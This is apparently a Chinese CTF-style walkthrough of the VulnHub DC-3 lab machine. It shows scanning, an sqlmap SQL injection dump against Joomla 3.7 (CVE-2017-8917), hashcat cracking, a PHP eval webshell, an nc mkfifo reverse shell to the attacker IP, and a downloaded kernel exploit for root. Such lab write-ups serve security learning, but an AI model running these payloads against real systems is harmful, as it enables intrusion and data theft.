



# DC3
- [参考](https://blog.csdn.net/qq_42133828/article/details/99680059)

- [学习](https://www.vulnhub.com/entry/dc-3,312/)

- [下载](https://download.vulnhub.com/dc/DC-3.zip)

## 扫描

```
nmap -sP 192.168.31.0/24
```


```
nmap -sT -sV -T5 -A -p- 192.168.31.205  //继续使用nmap获取详细信息

```


## 开始整活

目标只开放了80端口，访问，发现`提示`，
只有一个入口，让我们提权为 `root` 用户.


继续尝试获取目标信息，对目标靶场网页进行目录爆破 在此鸣谢 
语冰提供的[字典](https://github.com/No-Github/AboutSecurity/tree/master/%E5%AD%97%E5%85%B8) 

发现administrator目录，访问得到Joomla管理后台。


通过安装`joomscan` 获取详细信息以及`版本号`

安装:
```
git clone https://github.com/rezasp/joomscan.git

cd joomscan

perl joomscan.pl
```


```
joomscan -u http://192.168.31.205
```

google搜索得知，joomla3.7 版本存在 sql注入漏洞 [(CVE-2017-8917)](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8917)

[复现方法](https://www.jianshu.com/p/76451380b129)

或者使用kali 进行搜索

```
searchsploit joomla |grep 3.7
```


使用 sqlmap 

```
sqlmap -u "http://192.168.31.205/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -D joomladb --tables -T '#__users' -C name,password --dump
```


或者使用大佬写的 [joomblash.py](joomblash.md) 脚本(python2) 


得到管理员帐户admin，密码已hash加密 ，为了登录admin，我们首先要识别哈希值类型，然后使用hashcat暴力破解。



保存到 1.txt中,首先识别哈希值类型
```
hashid \root\1.txt
```


密码是 `bcrypt` 加密的

然后使用hashcat暴力破解。感谢[鸭王](https://github.com/TheKingOfDuck/fuzzDicts/blob/master/paramDict/parameter.txt)的字典(虽然没有密码但是这个fuzz字典还是推荐一下)

```
hashcat -m 3200 -a 0 -d 1 --force 1.txt fuzz.txt
```

很遗憾没跑出来，google一下后发现 密码是 `snoopy` (snoopy dogg) 成功登陆到后台.


Joomla后台可编辑模板，修改源码


在此处随便找一个模板即可
然后 创建一个 php 写入一句话，蚁剑成功连接

```php
<?php @eval($_POST[1]);?>
```


现在已经拿到一个webshell，开始尝试提权。

## 提权

写个反弹一个shell 到kali上
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.141.134 4545 >/tmp/f
```
```
nc -lvp 4545
```

(这里排除了半天发现是一脚网线电脑直接断网了 那没事了)


最后总算也是连上了，查看一下靶机版本(忘了截了)
```
lsb_release -a
uname -a
```

kali 搜索 主机Ubuntu 16.04  有关提权漏洞，

```
searchsploit ubuntu 16.04
```


存在提权漏洞 CVE-2016-4557
寻找[EXP](https://github.com/offensive-security/exploitdb-bin-sploits/tree/master/bin-sploits)


```
apt install libfuse-dev
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
```

把EXP传给靶机。将里面的 `exploit.tar` 上传，解压运行

```
tar -xvf exploit.tar
./compile.sh
./doubleput
```
注： 运行时会有warning。而且使用的是拒绝服务漏洞提权，会有点慢（我都以为电脑卡死了）等就完事了。

最后
```
cd /root
ls
the-flag.txt
cat the-flag.txt
```


## 总结

> 该靶场为未能完成 总结写的就很呆

该靶场大致要点为：
- joomscan 漏洞扫描工具使用
- CVE-2017-8917 SQL 注入漏洞
- john 跑 hash
- `CVE-2016-4557 提权漏洞`

更新笔记：
- 渗透工具
- 可利用漏洞